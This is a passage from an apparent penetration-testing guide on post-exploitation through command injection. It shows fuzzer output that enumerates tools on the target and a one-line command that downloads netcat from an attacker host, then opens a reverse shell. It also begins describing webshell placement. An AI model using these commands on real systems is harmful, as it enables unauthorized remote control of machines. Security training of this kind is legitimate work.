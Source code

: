 ```bash
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 491
________________________________________________

wget                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4098ms]
curl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4098ms]
python3              [Status: 200, Size: 508, Words: 59, Lines: 12, Duration: 4098ms]
php                  [Status: 200, Size: 510, Words: 59, Lines: 12, Duration: 4130ms]
cc                   [Status: 200, Size: 503, Words: 59, Lines: 12, Duration: 4133ms]
nc                   [Status: 200, Size: 499, Words: 59, Lines: 12, Duration: 4133ms]
hostname             [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4863ms]
gcc                  [Status: 200, Size: 504, Words: 59, Lines: 12, Duration: 5888ms]
ping                 [Status: 200, Size: 502, Words: 59, Lines: 12, Duration: 5920ms]
ifconfig             [Status: 200, Size: 506, Words: 59, Lines: 12, Duration: 6912ms]
perl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6912ms]
python               [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 6912ms]
```
{% endcode %}

### Reverse Shell

Next, we can try sending a [reverse shell](../../../tools/shells/reverse-shells.md) from the target to our attack host.&#x20;

### File Transfer

If the target is hardened and we are unable to get a reverse shell, we can try downloading a binary to the target ourselves. In the example below, we download the netcat binary, make it executable, and then execute a reverse shell payload.

{% code overflow="wrap" %}
```bash
wget http://192.168.49.51:80/nc -O /var/tmp/nc ; chmod 755 /var/tmp/nc ; /var/tmp/nc -nv 192.168.45.155 9090 -e /bin/bash
```
{% endcode %}

### Webshell

If we don't have access to unique binaries and we know the technology that the application uses, we can write our own backdoor. We first need to find the present working directory via the CI vulnerablity (Figure 9).

<figure><img src="../../../.gitbook/assets/web_ci_webshell.png" alt=""><figcaption><p>Figure 9: Enumerating the present working directory.</p></figcaption></figure>


[^1]: Remote Code Execution